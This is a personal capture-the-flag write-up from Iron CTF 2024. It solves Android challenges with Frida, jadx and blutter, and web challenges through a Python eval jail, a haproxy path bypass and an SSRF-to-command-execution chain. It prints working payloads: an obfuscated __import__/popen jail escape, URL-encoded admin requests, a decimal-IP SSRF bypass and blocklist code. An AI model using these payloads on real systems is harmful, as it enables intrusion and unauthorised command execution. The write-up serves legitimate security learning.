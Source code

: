 ```yaml
---
title: Iron CTF 2024 Writeup
published: true
---
```


Hi guys, after long time this weekend I played Iron ctf which is hosted by SASTRA University. Really a wonderful CTF after and I was abled to solve few challenges. I concentrated mostly on android and web challenges, and was able to solve all android challenges as well as few web challenges. 


### Contents
*   Fire in the Base Camp[Android]
*   Secure Vault[Android]
*   Is this Android[Android]
*   Loan App[Web]
*   b64SiteViewer[Web]


![](../assets/2024/ironctf/challs.png)


### Fire in the Base Camp [Android]

From the challenge we can guess that the challenge is based on firebase. Firebase is a real time database which many android application uses. One common security misconfiguration is using firebase databases without authentication, similar to connecting to mysql DB without password. More about this in [blog](https://blog.securitybreached.org/2020/02/04/exploiting-insecure-firebase-database-bugbounty/). 


![](../assets/2024/ironctf/fire1.png)

After decompiling the apk and analyzing mainactivity, we can find that it is using firebase DB. This is a simple dice rolling app which expects count value of *9999999* to read the flag. Initially I thought it would be easy if I made the counter value to 9999999. My idea is to use frida since it take less effort than manually changing the apk. So I wrote this frida script and ran the app. 

```
Java.perform(()=>{
	var main;
    Java.choose("com.example.app3.MainActivity",{
        onMatch : function(instance){
			var Int_class = Java.use("java.lang.Integer");
			var a = Int_class.$new(9999998);

			instance.count.value = a;
            console.log("[+] instance called" + instance.count.value);
        },
        onComplete: function(){}
    });
})
```

Value is set to **9999998** so that the next time If I roll the dice it would become **9999999** and gets the flag. But insted it just toasted `Congratulations!! You know where the flag is.` message. The app didn't even made the request to the URL. So I tried to the make the request URL from the resource file and applying slice but it doesn't help. 

```
MainActivity.this.mDatabase.child(MainActivity.this.path1 + MainActivity.this.path2 + MainActivity.this.path3 + MainActivity.this.path4 + MainActivity.this.path5).get()
```

But after few minutes later the toast message made sense. So i just made call to usual `.json` endpoint of the firebase URL. 

![](../assets/2024/ironctf/fire2.png)


### Secure Vault [Android]

In this challenge the objective is to finc the secret password to the vault. Initially I decopiled using jadx and found out that the app was built using [flutter](https://flutter.dev/development). Usually uses flutter using dart VM for running and reverse engineering one is usually harder than normal apk. For this challenge I used a tool called [blutter](https://github.com/worawit/blutter). There is flutter reverse enginneer [video](https://www.youtube.com/watch?v=RtKOe8HQy8Q) which explains this well. 

<!-- ![](../assets/2024/ironctf/sec.png){:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=50%"} -->

```
python3 blutter.py secure_vault/lib/arm64-v8a out_dir
```

After running the tool we can get the out_dir which contains `asm` folder which contains disassembled dart code. Going through the main.dart file found `_checkPassword` which checks password with base64 decoded string of `aXJvbkNURnswaF9teV9nMGQhIV95MHVfYnIwazNfaW50MF90aDNfNHBwXzRmNmUyMmNiYX0=`. After base64 decoding the string, we can get the flag.


```
echo "aXJvbkNURnswaF9teV9nMGQhIV95MHVfYnIwazNfaW50MF90aDNfNHBwXzRmNmUyMmNiYX0=" | base64 -d
ironCTF{0h_my_g0d!!_y0u_br0k3_int0_th3_4pp_4f6e22cba}
```


### Is this Android[Android]

This challenge as title suggested not an android challenge but rather a web challenge. Initially we are given calculator app based on flutter which performs calculation. But instead it showed error for any calculations. 

![](../assets/2024/ironctf/calc.png){:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=50%"}

After revering it like the previous app, we can find **calc.dart** in asm folder which contains the assembly code. To start our reversing I started searching for the string `Error!`, which we got while trying to calculate values from the app. The search leads us nearer to the `_calculate` function. The function looks it calls endpoint `` with our input to evaluate the expression. 

```
    // 0x22eb14: r1 = "https://calc.1nf1n1ty.team/calculate"
    //     0x22eb14: add             x1, PP, #9, lsl #12  ; [pp+0x9ce8] "https://calc.1nf1n1ty.team/calculate"
					...
    //     0x22eb20: bl              #0x183b44  ; [dart:core] Uri::parse
					...
    //     0x22eb40: add             x16, PP, #9, lsl #12  ; [pp+0x9cf8] "application/json"
					...
    //     0x22eb4c: add             x16, PP, #9, lsl #12  ; [pp+0x9d00] TypeArguments: <String, String>
					...
    //     0x22eb6c: add             x16, PP, #9, lsl #12  ; [pp+0x9d08] "expression"
                    ...
    //     0x22ebac: bl              #0x231228  ; [package:http/http.dart] ::post

```

Stripped few lines for ease of understanding. From the assembly code it is clear that the app is trying to make HTTP POST request with json {"expression":"our_expression"}. Since it is a HTTP request our Burp interceptor should have captured it. But unfortunately I didn't found any HTTP calls being made from app. So I tried to make one HTTP call. 

```
curl -X POST -H "Content-Type: application/json" --data-binary $'{\"expression\":\"1+2\"}' "https://calc.1nf1n1ty.team/calculate"
{"result":3}

```

With the confusion whether to contine to attack mobile app or web app, I asked organizers about it. And they hinted that I am going in correct decision. With this green flag I continued to explore the endpoint and found that it was python server which `eval` our input. So basically its going to be a **pyjail** challenge. After tinkering with it for a while found that few keywords like `system`, `os`, `dir` are blocked. Few characters like [',",g,f,l,x]. After few trial and errors, I was able to come up with payload which doesn't use any of the keywords restricted as well as able to bypass single and double quote check by appending characters to form string.

```
__import__('os').__dict__['popen']('cat /flag.txt').read() # the actual payload

__import__(chr(111)+chr(115)).__dict__[chr(112)+chr(111)+chr(112)+chr(101)+chr(110)](chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read() 
```

![](../assets/2024/ironctf/iron6.png)


### Loan App[Web]

In this challenge, we are given a user registration and login panel. Once logged in we can request loan and according to the soruce provided admin can approve but there is no admin check. So any user can call the endpoint and approve loan. But when accessing admin the server throws `Request forbidden by administrative rules.`. After analyzing the source it is clear that **haproxy** is configured as reverse proxy which throws this error. The below haprxy rule denies our request. 

```
frontend http_front
    mode http
    bind :80
    acl is_admin path_beg /admin
    http-request deny if is_admin
    default_backend gunicorn

```

When a request URL which begins with `/admin` is denied. To bypass tried vaious methods and URL encoding a character or the word `admin` works.

```
curl -X POST http://loanapp.1nf1n1ty.team/%61dmin/loan/6706c2fd3b619fc5054d4289
OK #response
```

![](../assets/2024/ironctf/iron1.png){:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=50%"}


#### Wierd Uninted Solution

After solution someone solved the challege in a really wierd way. The challenge accepts only valid `uuidv4` string for registering. But someone googled valid uuidv4 and got uuid from first stackoverflow. After logging in with the same uuidv4 username and password. They were able to get flag, Since some other team have already solved using the same uuidv4 :) .    

![](../assets/2024/ironctf/iron7.png){:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=50%"}


### b64SiteViewer[Web]

In this challenge we are welcomed with URL input box which visits our URL. Trying `localhost` and `127.0.0.1` throws error, after analyzing the source it is clear there are checking with blacklist. 

```
...
blacklist_scheme=['file','gopher','php','ftp','dict','data']
blacklist_hostname=['127.0.0.1','localhost','0.0.0.0','::1','::ffff:127.0.0.1']
if scheme in blacklist_scheme:
    return render_template_string('blocked scheme')     
if hostname in blacklist_hostname:
    return render_template_string('blocked host')
...
```

Using `http://2130706433:5000` URL from [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md) works. The admin URL route checks for internal ip address check, So we can call admin URL with this SSRF and also it is obvious that it executes command from user input.   

```
@app.route('/admin')
def admin():
    remote_addr = request.remote_addr
    
    if remote_addr in ['127.0.0.1', 'localhost']:
        cmd=request.args.get('cmd','id')
        cmd_blacklist=['REDACTED']
        if "'" in cmd or '"' in cmd:
            return render_template_string('Command blocked')
        for i in cmd_blacklist:
            if i in cmd:
                return render_template_string('Command blocked')
        print(f"Executing: {cmd}")
        res= subprocess.run(cmd, shell=True, capture_output=True, text=True)
        return res.stdout
    else:
        return render_template_string("Don't hack me")
```


But still there are few restrictions in place. We can't execute common commands like `cat, python, perl, ...` . Using `ls` we can find the current directory files, One interesting file `run.sh`. `tail` command is not blocked ,so we can use tail with file name regex[since app.py, run.sh files are blocked in user input]. `tail -n 10 ap*` to get last 10 lines from app.py.

```
tail -n 10 run*
```

Flag is set as environment variable in **run.sh** file. 

![](../assets/2024/ironctf/iron4.png){:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=50%"}
